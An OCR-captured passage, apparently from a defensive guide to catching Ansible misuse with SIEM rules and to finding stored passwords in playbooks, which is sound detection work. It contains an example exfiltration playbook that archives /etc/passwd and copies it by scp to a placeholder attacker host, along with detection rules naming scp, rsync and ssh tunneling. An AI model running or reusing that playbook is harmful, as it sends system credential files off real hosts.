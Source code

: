      **SIEM Detection:**
     - **Monitor for network changes**: Alert on `shell` or `command` module usage that involves commands like `ssh` with port forwarding flags (`-L`, `-R`), or commands that start with `iptables`.
     - **Watch for unusual traffic patterns**: Detect patterns indicative of tunneling, such as consistent outbound connections from high-numbered ports.

### 6. **Exfiltrating Data**
   - **Transferring Data to an External Host:**
     An attacker could use a playbook to package and transfer sensitive data to an external server, effectively exfiltrating it from the network.

     **Example Playbook:**
     ```yaml
     ---
     - name: Exfiltrate data to external server
       hosts: all
       tasks:
         - name: Archive sensitive data
           archive:
             path: /etc/passwd
             dest: /tmp/data.tar.gz

         - name: Transfer archive to external server
           command: scp /tmp/data.tar.gz attacker@external_ip:/path/to/destination
     ```

     **SIEM Detection:**
     - **Alert on large file transfers**: Watch for playbooks using `archive` or `command` modules combined with `scp`, `rsync`, or similar commands, especially when transferring data to external IPs.
     - **Monitor for unusual file creation**: Detect the creation of archive files (`tar.gz`, `.zip`, etc.) in non-standard locations like `/tmp`.

### General SIEM Rules:
- **Monitor Ansible Playbook Executions**: Ensure that all playbook executions are logged. Review these logs regularly for any playbooks that are outside the norm or are scheduled at unusual times.
- **Alert on Ansible Module Usage**: Set up SIEM rules to detect the use of high-risk modules like `shell`, `command`, `user`, `copy`, `service`, and `lineinfile`.
- **Watch for Unauthorized Changes to Playbooks**: Use file integrity monitoring (FIM) on directories where playbooks are stored to detect unauthorized changes.
- **Detect Unusual Patterns of Playbook Execution**: Identify anomalies in the timing, frequency, and targets of playbook executions. For instance, a playbook executing across all hosts that are typically targeted individually might warrant investigation.

By implementing these SIEM rules, you can increase the chances of detecting malicious activities executed via Ansible playbooks, helping to protect your systems from unauthorized control and exploitation.


Yes, you can check for stored passwords in Ansible playbooks and related files using a combination of manual inspection and automated scanning tools. Storing passwords and other sensitive information directly in playbooks is a security risk, and it's important to identify and secure such data. Here’s how you can detect stored passwords in Ansible playbooks:

### 1. **Manual Inspection**
   - **Search for Common Patterns**:
     Look for common patterns or keywords that may indicate passwords or sensitive data, such as:
     - `password`
     - `secret`
     - `token`
     - `key`
     - `auth`
     - `credential`
